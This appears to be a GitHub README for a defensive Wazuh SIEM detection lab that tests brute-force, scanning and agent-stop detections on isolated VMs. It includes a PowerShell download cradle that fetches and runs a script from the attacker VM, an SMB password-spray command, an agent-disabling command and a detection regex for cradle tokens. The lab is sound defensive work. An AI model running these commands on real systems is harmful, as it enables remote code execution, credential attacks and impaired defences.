







# Wazuh Detection Engineering Lab — AD Brute-Force, Custom Rule Authoring & Fleet Health

A hands-on blue-team exercise: generate well-known, benign attacker activity against a
self-owned, instrumented Windows Server 2022 domain controller, then work the Wazuh SIEM
from the analyst side to document detection coverage — which rules fire, their rule IDs,
and how they map to MITRE ATT&CK — including a **custom-authored detection rule** on top of
the built-in ruleset, followed by an agent-health / fleet-reporting exercise.

All activity was performed against isolated VirtualBox VMs I own and control.

---

## Environment

| Component | Detail |
|---|---|
| SIEM | Wazuh manager + indexer + dashboard (Linux), agent **v4.7.5** |
| Target | Windows Server 2022 Standard (Eval), domain controller `WIN-S0ESS5L5DIC` |
| Attacker | Kali Linux (`10.0.2.5`), netexec (`nxc`) + nmap |
| Endpoint telemetry | Sysmon installed on the DC, ingested via `Microsoft-Windows-Sysmon/Operational` |
| Target IP | `10.0.2.10` (agent id `001`) |

Note: a second Windows endpoint agent (`WIN11-LAB`) and a third registered agent were kept
powered off to conserve host RAM. The lab therefore ran against the DC as a single live
target — reflected in the fleet-health numbers below.

### Architecture

```
     ┌──────────────────────────┐
     │  Wazuh (Linux)           │
     │  manager+indexer+dash    │◄──── alerts / agent keepalives
     └──────────────────────────┘
                  ▲
      Wazuh agent │ (v4.7.5)
                  │
     ┌────────────┴───────────┐
     │ WIN-S0ESS5L5DIC        │
     │ Windows Server 2022 DC │
     │ + Sysmon               │
     └────────────────────────┘
                  ▲
                  │ SMB auth attempts / nmap scan
          ┌───────┴───────┐
          │  Kali 10.0.2.5│
          └───────────────┘
```

---

## Activity Generated

| # | Activity | Command | ATT&CK |
|---|---|---|---|
| 1 | TCP port/service scan | `nmap -sS -p- 10.0.2.10` | T1046 |
| 2 | SMB failed-auth burst | `nxc smb 10.0.2.10 -u Administrator -p wrong1..wrongN` | T1110 |
| 3 | Agent service stop | `Stop-Service -Name Wazuh` (on the DC) | T1562.001 |
| 4 | PowerShell download cradle | `IEX (New-Object Net.WebClient).DownloadString('http://10.0.2.5/x.ps1')` (on the DC) | T1059.001 |

---

## Detections Observed

| Activity | Windows event | Wazuh rule ID | Rule description | Level | ATT&CK |
|---|---|---|---|---|---|
| Single failed logon | 4625 | **60122** | Logon failure – unknown user or bad password | 5 | T1078 / T1531 |
| Brute force (composite) | 4625 ×N | **60204** | Multiple Windows logon failures | 10 | **T1110** (Brute Force / Credential Access) |
| PowerShell download cradle | Sysmon 1 | **100100** *(custom)* | Suspicious PowerShell download cradle executed | 12 | **T1059.001** (Command and Scripting Interpreter: PowerShell) |

**Key finding — atomic vs. composite detection.** The individual failed logons matched the
atomic rule **60122** (level 5), which Wazuh tags as Valid Accounts (T1078/T1531). Once
failures crossed the frequency threshold (rule fired at `rule.frequency: 8` within the
window), the correlation engine escalated to the composite rule **60204** (level 10),
correctly mapped to **T1110 Brute Force**. Documenting both shows how the SIEM escalates
from single-event matching to frequency-based correlation — the atomic rule alone would not
convey an attack in progress.

Sample composite alert (redacted):
```
rule.id:          60204
rule.level:       10
rule.description: Multiple Windows logon failures
rule.frequency:   8
rule.groups:      windows, windows_security, authentication_failures
rule.mitre.id:    T1110
rule.mitre.tactic: Credential Access
agent.name:       WIN-S0ESS5L5DIC
data.win.eventdata.ipAddress: 10.0.2.5   (Kali)
```

### Custom Detection — PowerShell Download Cradle (T1059.001)

Beyond the built-in ruleset, authored a custom Wazuh rule to detect in-memory PowerShell
download cradles — the classic `IEX (New-Object Net.WebClient).DownloadString(...)` pattern
used to pull and execute a remote payload directly in memory without writing to disk.

Because the technique is **fileless**, hash- and file-based detection miss it entirely — the
detection has to happen at the command-line level. Sysmon **Event ID 1 (Process Creation)**
captures the full command line of the spawned `powershell.exe` process, so the rule matches
against `win.eventdata.commandLine`.

**Rule (`local_rules.xml`, ID 100100):**

```xml
<group name="local,sysmon,">
  <rule id="100100" level="12">
    <if_group>sysmon_event1</if_group>
    <field name="win.eventdata.commandLine" type="pcre2">(?i)(DownloadString|Net\.WebClient|IEX|Invoke-Expression)</field>
    <description>Suspicious PowerShell download cradle executed</description>
    <mitre><id>T1059.001</id></mitre>
  </rule>
</group>
```

- **ID 100100** — Wazuh reserves the 100000+ range for user-defined rules, so custom rules
  survive ruleset updates without colliding with the built-in set.
- **`if_group>sysmon_event1`** — builds on Wazuh's base Sysmon process-creation group rather
  than re-matching raw events from scratch.
- **level 12** — high severity, consistent with an active code-execution attempt.
- **PCRE2, case-insensitive `(?i)`** — matches the cradle's tell-tale tokens. `IEX` and
  `Invoke-Expression` are both listed so an alias swap doesn't slip past the match.

**Validation.** Executed a benign download cradle on the DC and confirmed rule 100100 fired
at level 12, then pivoted from the Wazuh alert to the raw Sysmon EID 1 event to confirm the
match landed on the `commandLine` field — alert → raw telemetry, not just alert-reading.

**Known limitations (documented, not tuned away).** This is a keyword match on the command
line and is deliberately scoped to the *unobfuscated* cradle:

- **Evasion.** Base64 / `-EncodedCommand`, string concatenation, and other obfuscation bypass
  the regex — the decoded intent never appears in the raw command line. Catching those
  requires **PowerShell Script Block Logging (Event ID 4104)**, which logs the deobfuscated
  block. That's the complementary source I'd pair with this rule to close the gap.
- **False positives.** Legitimate admin tooling and installers use `Net.WebClient` and
  `Invoke-Expression`, so a flat keyword match will fire on benign activity. Hardening
  direction is parent-process scoping and known-good path exclusions.

Recorded with its coverage boundaries rather than presented as production-ready — same
posture as the network-scan gap below.

### Coverage gap — network scanning (documented, not a pass)

A raw `nmap` SYN scan against the DC produced **no Wazuh alert and no Sysmon EID 3 events**.
Sysmon's NetworkConnect logging (SwiftOnSecurity-style config) filters heavily and primarily
records host-initiated outbound connections, so an inbound scan left no telemetry to match.
This is a real detection-coverage limitation: reliably catching internal scanning on Windows
requires either Windows Filtering Platform audit logging (event 5156/5157) or a custom
volume-based correlation rule — neither present out of the box. Recorded as a known gap
rather than forcing a detection.

---

## Fleet Health / Agent Reporting

Demonstrated agent-health monitoring by stopping the Wazuh service on the DC and observing
the fleet status degrade, then recover.

| State | Active | Disconnected | Coverage |
|---|---|---|---|
| Baseline | 1 | 1 | 33.33% |
| After `Stop-Service` | 0 | 2 | 0.00% |
| After `Start-Service` | 1 | 1 | 33.33% |

- Stopping the agent flipped `WIN-S0ESS5L5DIC` active → disconnected; restarting restored it.
- An attacker performing this maps to **T1562.001 (Impair Defenses: Disable or Modify Tools)**.
- **Standing fleet findings:** `WIN11-LAB` shows **disconnected** (registered, not reporting)
  and a third agent shows **never connected** (registered, never checked in). Both are
  legitimate fleet-health items — the exact conditions a SOC monitors for under "ensure
  agents are healthy and reporting across the fleet."

---

## Screenshots

**Sysmon telemetry in Discover** — `wazuh-alerts-*` filtered to the DC and
`Microsoft-Windows-Sysmon/Operational`, confirming the end-to-end pipeline (40 hits,
process-creation and file-create events landing in the indexer).



**rule.level histogram** — alert distribution across levels 3 / 5 / 6 / 10 / 12, showing the
atomic-to-composite escalation.



**Composite brute-force alert (60204)** — `rule.id 60204`, `rule.level 10`,
`rule.frequency 8`, `rule.mitre.id T1110`, Credential Access / Brute Force.



**Windows auth event distribution** — top event IDs across the window: 4634 logoff (~48%),
4624 logon (~44%), 4625 failed logon (~5%).



**Fleet coverage — baseline** — Active 1 / Disconnected 1 / Never connected 1, 33.33%.



**Fleet coverage — after agent stop** — Active 0 / Disconnected 2, 0.00%.



**Agents dashboard — recovered** — DC (`agent 001`, `10.0.2.10`, Windows Server 2022,
agent v4.7.5) restored to active.



> Custom cradle detection (rule 100100) screenshots — expanded 100100 alert JSON and the raw
> Sysmon EID 1 event showing the matched `commandLine` — to be added.

---

## Skills Demonstrated

- Generated known adversary behavior and validated SIEM detection coverage end-to-end
- Distinguished atomic (60122) vs. frequency-based composite (60204) detection logic
- **Authored a custom Wazuh detection rule (100100, T1059.001)** on the Sysmon EID 1
  process-creation group, validated it fired, and documented its evasion (`-EncodedCommand`
  / 4104) and false-positive limitations rather than overclaiming it as production-ready
- Mapped detections to MITRE ATT&CK from raw alert JSON, and caught a level-12 Sysmon
  false-positive (svchost / T1055) that was unrelated to the attack — triage judgment,
  not just alert-reading
- Documented a real detection gap (Windows scan visibility) with the remediation path,
  rather than reporting a clean pass
- Performed agent-health / fleet-reporting monitoring: induced and recovered an agent
  outage, and identified standing disconnected / never-connected agents
- Onboarded Sysmon telemetry via `ossec.conf` eventchannel and verified ingestion
- Windows AD auth event analysis (4624 / 4625 / 4634), NTLM logonType 3

## Reproduction Notes

- Fire 8+ failed auth attempts in a tight window to trip the 60204 composite, not just 60122.
- `nxc smb <ip> -u Administrator` authenticates NTLM against the local account → 4625 only;
  4771/4776 require targeting a **domain** account.
- Raw nmap scans do not alert out of the box — Sysmon NetworkConnect filtering suppresses them.
- Rule 100100 matches on `win.eventdata.commandLine`; confirm Sysmon EID 1 command-line
  capture is enabled in your Sysmon config or the field will be empty and the rule won't fire.
- Obfuscated cradles (`-EncodedCommand`, base64) will **not** match 100100 by design — add
  PowerShell Script Block Logging (Event ID 4104) to cover the deobfuscated block.
- Confirm the agent service name with `Get-Service *wazuh*` before stopping it.
- All lab credentials must be scrubbed from screenshots before publishing.
